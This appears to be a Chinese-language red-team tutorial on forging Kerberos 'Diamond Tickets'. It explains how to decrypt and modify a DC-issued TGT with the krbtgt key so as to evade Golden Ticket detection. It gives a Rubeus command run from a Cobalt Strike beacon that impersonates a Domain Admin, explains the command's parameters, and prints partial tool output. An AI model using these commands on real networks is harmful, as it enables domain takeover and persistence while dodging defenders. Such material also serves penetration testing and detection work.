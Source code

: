  Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 11:11:35   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings

...
```

# Diamond Tickets

## 什么是Diamond Tickets？
与Golden Tickets一样，Diamond Tickets是一种 TGT，可用于以任何用户身份访问任何服务。


## 为什么需要Diamond Tickets？

首先要知道蓝队可以通过什么方法查找到Golden Tickets，通常有下面两种方法：

1. 查找没有相应AS-REQ的TGS-REQ
2. 查找有异常值的TGT，如给了10年的Mimikatz的生命周期

Diamond Tickets为了规避上面两种被侦查的方法提出两个思路：

1. TGS-REQs将有一个前面的AS-REQ。
2. TGT是由DC签发的，这意味着它将有来自域的Kerberos策略的所有正确细节。 即使这些可以在金票中准确伪造，但它更复杂，容易出错。


制作思路：
钻石票是通过修改由DC签发的合法TGT的字段而制成的。 这是通过请求TGT，用域的krbtgt哈希值对其进行解密，修改票据的所需字段，然后重新加密来实现的。

## 怎么制作Diamond Tickets？

1. 使用Rubeus.exe生成钻石票
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe diamond /tgtdeleg /ticketuser:nlamb /ticketuserid:1112 /groups:512 /krbkey:390b2f[...snip...]91a8aa /nowrap
```

参数解释:
- /tgtdeleg uses the Kerberos GSS-API to obtain a useable TGT for the user without needing to know their password, NTLM/AES hash, or elevation on the host.
- /ticketuser is the username of the principal to impersonate.
- /ticketuserid is the domain RID of that principal.  This can be obtained using a command like ```powershell Get-DomainUser -Identity nlamb -Properties objectsid```.
- /groups are the desired group RIDs (512 being Domain Admins).
- /krbkey is the krbtgt AES256 hash.

2. 上面命令生成的tgt
```
[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/dc-2.dev.cyberbotic.io'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: +mzV4aOvQx3/dpZGBaVEhccq1t+jhKi8oeCYXkjHXw4=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):
